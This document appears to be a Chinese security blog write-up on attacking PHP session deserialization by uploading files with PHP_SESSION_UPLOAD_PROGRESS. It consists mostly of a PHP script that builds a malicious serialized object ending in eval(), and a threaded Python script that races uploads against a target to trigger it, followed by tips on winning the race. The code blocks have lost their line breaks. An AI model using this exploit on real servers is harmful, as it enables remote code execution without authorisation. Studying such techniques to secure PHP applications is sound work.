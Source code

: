 **问题一**

整个代码没有参数可控的地方。通过什么方法来进行反序列化利用呢

**解答一**

这里，利用`PHP_SESSION_UPLOAD_PROGRESS`上传文件，其中利用文件名可控，从而构造恶意序列化语句并写入session文件。

另外，与文件包含利用一样，也需要进行竞争。

### 利用脚本

首先利用exp.php脚本构造恶意序列化语句

```auto
<?phpini_set('session.serialize_handler', 'php_serialize');session_start();class Door{    public $handle;    function __construct() {        $this->handle = new IP();    }    function __destruct() {        $this->handle->action();    }}class TimeNow {    function action() {        echo "你的访问时间:"."  ".date('Y-m-d H:i:s',time());    }}class  IP{    public $ip;    function __construct() {        //$this->ip='payload';        $this->ip='phpinfo();';        //$this->ip='print_r(scandir('/'));';    }    function action() {        eval($this->ip);    }}$a=new Door();$b=serialize($a);$c=addslashes($b);$d=str_replace("O:4:","|O:4:",$c);echo $d;?>
```

其此利用exp.py脚本进行竞争

```auto
#coding=utf-8import requestsimport threadingimport ioimport sysdef exp(ip,port):        f = io.BytesIO(b'a' * 1024 *1024*1)    while True:        et.wait()        url = 'http://'+ip+':'+str(port)+'/test5.php'        headers = {        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36',        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',        'DNT': '1',        'Cookie': 'PHPSESSID=20190506',        'Connection': 'close',        'Upgrade-Insecure-Requests': '1'        }        proxy = {        'http': '127.0.0.1:8080'        }        data={'PHP_SESSION_UPLOAD_PROGRESS':'123'}        files={            'file':(r'|O:4:\"Door\":1:{s:6:\"handle\";O:2:\"IP\":1:{s:2:\"ip\";s:10:\"phpinfo();\";}}',f,'text/plain')        }        resp = requests.post(url,headers=headers,data=data,files=files,proxies=proxy) #,proxies=proxy        resp.encoding="utf-8"        if len(resp.text)<2000:            print('[+++++]retry')        else:            print(resp.content.decode('utf-8').encode('utf-8'))            et.clear()            print('success!')            if __name__ == "__main__":    ip=sys.argv[1]    port=int(sys.argv[2])    et=threading.Event()    for i in xrange(1,40):        threading.Thread(target=exp,args=(ip,port)).start()    et.set()
```

首先在代码里加个代理，利用burp抓包。如下图

![利用session.upload_progress进行文件包含和反序列化渗透](https://image.3001.net/images/20190506/1557146875_5cd02cfb01b9e.png!small)

这里有几个注意点：

> PHPSESSID必须要有，因为要竞争同一个文件
>
> filename可控，但是在值的最前面加上`|`,因为最终目的是利用session的反序列化，`PHP_SESSION_UPLOAD_PROGRESS`只是个跳板。其次把字符串中的双引号转义，以防止与最外层的双引号冲突
>
> 上传的文件要大些，否则很难竞争成功。我写入是这么大`f = io.BytesIO(b'a' * 1024 *1024*1)`
>
> filename值中出现汉字时，会出错，所以在利用脚本前，[一定要修改python源码](https://blog.csdn.net/iriszx999/article/details/82113521)
